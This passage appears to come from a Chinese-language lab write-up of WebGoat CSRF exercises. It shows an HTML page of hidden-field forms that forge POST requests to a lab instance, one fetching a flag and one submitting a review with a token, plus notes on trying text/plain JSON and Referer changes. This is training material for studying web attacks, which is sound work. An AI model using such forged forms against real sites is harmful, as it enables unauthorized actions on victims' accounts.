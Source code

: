 ```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <meta name="viewport" content="width=device-width, initial-scale=1.0">  
    <title>Send POST Request</title>  
</head>  
<body>  
    <form action="http://192.168.137.42:8080/WebGoat/csrf/basic-get-flag" method="POST">  
        <input type="hidden" name="csrf" value="false"> <!-- 根据需要添加参数 -->  
        <button type="submit">basic-get-flag</button>  
    </form>  

<form action="http://192.168.137.42:8080/WebGoat/csrf/review" method="POST">  
        <input type="hidden" name="reviewText" value="testreview"> <!-- 根据需要添加参数 -->  
	<input type="hidden" name="stars" value="0"> <!-- 根据需要添加参数 -->  
	<input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9"> <!-- 根据需要添加参数 -->  
        <button type="submit">review</button>  
    </form>  
</body>  
</html>  
```

### 2.3 text/plain发json邮件

直接发一下
![](../../images/Pasted%20image%2020241213101751.png)

改refer好像也不行
![](../../images/Pasted%20image%2020241213102125.png)
